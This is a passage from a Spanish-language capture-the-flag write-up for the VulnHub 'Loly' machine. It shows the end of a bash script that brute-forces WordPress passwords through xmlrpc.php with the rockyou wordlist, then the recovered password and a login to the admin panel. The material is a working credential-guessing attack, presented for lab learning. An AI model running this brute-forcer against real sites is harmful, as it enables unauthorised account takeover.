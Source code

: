 ```bash

  echo $xmlFile > data.xml

  response=$(curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@data.xml)

  if [ ! "$(echo $response | grep -E 'Incorrect username or password.|parse error. not well formed')" ]; then
    echo -e "\n${yellowColour}[+] ${grayColour}La contraseña es ${blueColour}$password${endColour}"
    rm data.xml 2>/dev/null
    tput cnorm && exit 0
  fi
  done
}

if [ $parameter_counter -eq 2 ]; then
  if [ -f $wordlist ]; then
    makeXML $username $wordlist
  else
    echo -e "\n\n${redColour}[!] El archivo no existe${endColour}\n"
  fi
else
  helpPanel
fi

rm data.xml 2>/dev/null
tput cnorm
```

Funciona tambien y asi puedes explotarlo manualmente

```bash
❯ chmod +x xmlrpc_bruteforce.sh
❯ ./xmlrpc_bruteforce.sh -u usuario -w /usr/share/wordlists/rockyou.txt

[+] La contraseña es fernando
```

Ahora podemos logearnos en el panel de login de `wordpress`

Y ganamos acceso

![](/assets/images/vh-writeup-loly/Web8.png)

